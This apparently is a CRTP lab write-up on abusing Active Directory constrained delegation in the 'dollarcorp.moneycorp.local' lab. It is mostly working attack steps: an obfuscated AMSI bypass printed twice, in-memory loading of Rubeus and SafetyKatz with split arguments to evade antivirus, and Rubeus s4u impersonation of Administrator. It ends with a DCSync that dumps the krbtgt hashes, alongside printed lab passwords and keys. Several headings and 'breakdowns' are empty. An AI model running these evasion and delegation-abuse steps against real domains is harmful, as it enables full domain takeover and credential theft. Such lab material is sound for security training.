



CRTP - Certified Red Team Professional
Constrained Delegation
Constrained Delegation
Constrained Delegation is a feature in Active Directory (AD) that allows a service to impersonate a user to access specific resources within a domain.
While it provides improved security and control over Unconstrained Delegation, it still poses significant risks if not properly configured and monitored.
How Constrained Delegation Works
When a service is configured for Constrained Delegation, it is given a list of specific resources that it is allowed to access on behalf of a user. This list is stored in the msDS-AllowedToDelegateTo attribute of the service account. When the service attempts to access a resource, the domain controller checks the list of allowed resources and allows the access only if the resource is in the list.
Main Differences between Unconstrained and Constrained Delegation
1. Scope of Delegation:
1. Security:
1. Configuration:
1. Impact on Security:
1. Detection and Mitigation:
1. Best Practices:
Conclusion
Unconstrained delegation is a more dangerous configuration that allows a service to impersonate any user, while constrained delegation is a more secure configuration that limits the resources that a service can access on behalf of a user.
Abusing Constrained Delegation with User Accounts
Enumeration
To enumerate User accounts with Delegation Rights assigned, Powerview.ps1 can be used.
Assuming that we do have AV enabled on the machine or network, let’s run InvisiShell bypass script blocking mechanisms and bypass AMSI as well.
RunWithRegistryNonAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Enumerating Constrained delegation using PowerView.
. .\PowerView.ps1
Get-DomainUser -TrustedToAuth

The output from the Get-DomainUser command in PowerView, specifically with the -TrustedToTauth parameter, provides information about the users who have been granted Constrained Delegation (CD) rights. Here's a breakdown of the output:
In summary, the output indicates that the user websvc has been granted Constrained Delegation rights, allowing them to delegate to specific services like SQL Server.
For this attack we can user KEKEO or RUBEUS.
Constrained Delegation With Rubeus.
Let’s assume that we have compromised WEBSVC user credentials like NTLM or AES256 key before, we can abuse the Constrained Delegation assigned to this user.
Note: I’ll be using AES256 key, since it’s more stealthy.
Username : websvc
Password : AServicewhichIsNotM3@nttoBe
aes256_hmac:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
ArgSpli.bat
s4u
set "z=u"
set "y=4"
set "x=s"
set "Pwn=%x%%y%%z%"Now we can execute the Rubeus payload.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt

Here's a breakdown of the command:
This command will request a TGS for the domain administrator account using the websvc user's credentials and then use that TGS to access the CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL service as the domain administrator.
Now let’s see if the ticket has been injected into our Cached Tickets as Administrator.
klist

Above we can see that we have it into our Cached Tickets as Administrator.
dir \\dcorp-mssql.dollarcorp.moneycorp.local\C$

Above we can see that we were able to abuse the Constrained Delegation assigned to user websvc into DCORP-MSSQL.
Abusing Constrained Delegation with Computer accounts
Enumeration
To enumerate User accounts with Delegation Rights assigned, Powerview.ps1 can be used.
Assuming that we do have AV enabled on the machine or network, let’s run InvisiShell bypass script blocking mechanisms and bypass AMSI as well.
RunWithRegistryNonAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Enumerating Constrained delegation using PowerView.
. .\PowerView.ps1
Get-DomainComputer -TrustedToAuth

The provided output is from the Get-DomainComputer command in PowerView, which is used to enumerate domain computers.
Here's a breakdown of the output:
1. samaccountname: This is the SAM account name of the computer, which is DCORP-ADMINSRV$.
1. samaccounttype: This indicates the type of account. In this case, it is a machine account (MACHINE_ACCOUNT).
1. useraccountcontrol: This is a bit mask that defines the user account properties. In this case, it includes WORKSTATION_TRUST_ACCOUNT and TRUSTED_TO_AUTH_FOR_DELEGATION. These flags indicate that the computer is a workstation and is trusted to authenticate for delegation.
1. msds-allowedtodelegateto: This is a list of trusted computers that this computer is allowed to delegate to. In this case, it includes TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL and TIME/dcorp-DC. These are the domain controllers that this computer is allowed to delegate to.
Let’s assume that we have compromised DCORP-ADMINSRV$ computer account credentials and we will use it to abuse this Constrained Delegation.
Note: I’ll be using AES256 key since it’s more stealthy, but NTLM has could also be used.
ComputerName: dcorp-adminsrv$
NTLM:b5f451985fd34d58d5120816d31b5565
aes256_hmac:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
ArgSpli.bat
s4u
set "z=u"
set "y=4"
set "x=s"
set "Pwn=%x%%y%%z%"Now we can execute the Rubeus payload.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:TIME/dcorp-dc.dollarcorp.moneycorp.local /altservice:ldap /ptt

Let’s check if the ticket has been imported into our Cached Tickets.
klist

Now we can use SafetyKatz to DCSync.
ArgSplit.bat
lsadump::dcsync
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::dcsync
set "z=c"
set "y=n"
set "x=y"
set "w=s"
set "v=c"
set "u=d"
set "t=:"
set "s=:"
set "r=p"
set "q=m"
set "p=u"
set "o=d"
set "n=a"
set "m=s"
set "l=l"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Once we have encoded the payload lsadump::dcsync then we can execute SafetyKatz to request any domain secrets.
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit”
mimikatz(commandline) # lsadump::dcsync /user:dcorp\krbtgt
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID : 502
Credentials:
Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
lm - 0: ea03581a1268674a828bde6ab09db837
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd
* Primary:Kerberos-Newer-Keys *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
aes128_hmac (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
des_cbc_md5 (4096) : 150ea2e934ab6b80
* Primary:Kerberos *
Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 150ea2e934ab6b80